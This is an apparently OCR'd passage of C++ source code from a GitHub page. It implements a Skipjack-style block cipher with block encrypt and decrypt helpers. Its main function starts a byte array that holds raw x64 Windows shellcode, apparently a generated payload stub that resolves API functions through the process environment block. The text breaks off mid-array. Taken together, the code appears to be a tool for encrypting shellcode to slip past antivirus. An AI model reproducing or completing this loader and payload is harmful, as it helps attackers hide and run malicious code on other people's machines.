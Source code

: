 ```cpp
  w1 ^= w2 ^ 20; h4(tab, w2);
  w2 ^= w3 ^ 19; h3(tab, w3);
  w3 ^= w4 ^ 18; h2(tab, w4);
  w4 ^= w1 ^ 17; h1(tab, w1);

  /* stepping rule A: */
  h0(tab, w2); w3 ^= w2 ^ 16;
  h4(tab, w3); w4 ^= w3 ^ 15;
  h3(tab, w4); w1 ^= w4 ^ 14;
  h2(tab, w1); w2 ^= w1 ^ 13;
  h1(tab, w2); w3 ^= w2 ^ 12;
  h0(tab, w3); w4 ^= w3 ^ 11;
  h4(tab, w4); w1 ^= w4 ^ 10;
  h3(tab, w1); w2 ^= w1 ^  9;

  /* stepping rule B: */
  w1 ^= w2 ^ 8; h2(tab, w2);
  w2 ^= w3 ^ 7; h1(tab, w3);
  w3 ^= w4 ^ 6; h0(tab, w4);
  w4 ^= w1 ^ 5; h4(tab, w1);
  w1 ^= w2 ^ 4; h3(tab, w2);
  w2 ^= w3 ^ 3; h2(tab, w3);
  w3 ^= w4 ^ 2; h1(tab, w4);
  w4 ^= w1 ^ 1; h0(tab, w1);

  out[0] = (unsigned char)(w1 >> 8); out[1] = (unsigned char)w1;
  out[2] = (unsigned char)(w2 >> 8); out[3] = (unsigned char)w2;
  out[4] = (unsigned char)(w3 >> 8); out[5] = (unsigned char)w3;
  out[6] = (unsigned char)(w4 >> 8); out[7] = (unsigned char)w4;

}

void encryptData(unsigned char tab[10][256], unsigned char *in, unsigned char *out, int length) {
  int numBlocks = length / 8;
  for (int i = 0; i < numBlocks; i++) {
    encrypt(tab, in + (i * 8), out + (i * 8));
  }
}

void decryptData(unsigned char tab[10][256], unsigned char *in, unsigned char *out, int length) {
  int numBlocks = length / 8;
  for (int i = 0; i < numBlocks; i++) {
    decrypt(tab, in + (i * 8), out + (i * 8));
  }
}

int main() {
  unsigned char data[] = {
    0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
```
